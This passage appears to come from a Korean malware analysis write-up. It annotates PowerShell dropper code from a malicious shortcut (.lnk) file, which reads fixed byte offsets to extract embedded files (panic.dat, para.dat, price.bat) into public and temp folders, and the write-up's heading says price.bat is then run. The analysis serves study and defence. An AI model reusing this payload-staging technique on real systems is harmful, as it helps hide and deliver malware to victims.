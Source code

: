 

#### 4. lnk 파일 내부에서 panic.dat 파일 추출

```powershell
# $lnkFile 파일에서 0x0088088E를 찾음.
$lnkFile.Seek(0x0088088E,[System.IO.SeekOrigin]::Begin);

# $exeFile 객체를 생성, 크기 0x000D9402
$exeFile=New-Object byte[] 0x000D9402;

# $lnkFile 파일에서 찾은 0x0088088E부터 0x000D9402 크기 만큼 읽음
$lnkFile.Read($exeFile, 0, 0x000D9402);

# public 경로 + \ + panic.dat으로 $exePath 설정
$exePath=$env:public+'\'+'panic.dat';

# Set-Content로 $exeFile의 내용을 Byte로 인코딩하여 $exePath에 저장;
sc $exePath $exeFile -Encoding Byte;

```



#### 5. lnk 파일 내부에서 para.dat 파일 추출

```powershell
# 0x00959C90를 찾음
$lnkFile.Seek(0x00959C90,[System.IO.SeekOrigin]::Begin);

# 0x000005A9 크기의 $stringByte 객체 생성
$stringByte = New-Object byte[] 0x000005A9;

# 0x000005A9 크기 만큼 읽음.
$lnkFile.Read($stringByte, 0, 0x000005A9);

# para.dat 파일 경로를 생성
$batStrPath = $env:temp+'\'+'para.dat';

# $stringByte를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# $batStrPath로 ascii 인코딩하여 파일 생성
$string | Out-File -FilePath $batStrPath -Encoding ascii;

```



#### 6. lnk 파일 내부에서 price.bat 파일 추출 및 실행

```powershell
# 0x0095A239를 찾음
$lnkFile.Seek(0x0095A239,[System.IO.SeekOrigin]::Begin);

# 0x00000135 크기의 객체 생성
$batByte = New-Object byte[] 0x00000135;

# 0x00000135 크기만큼 읽음.
$lnkFile.Read($batByte, 0, 0x00000135);

# price.bat 경로를 생성
$executePath = $env:temp+'\'+'price.bat';

# $executePath 출력
Write-Host $executePath;

# $batStrPath 출력
```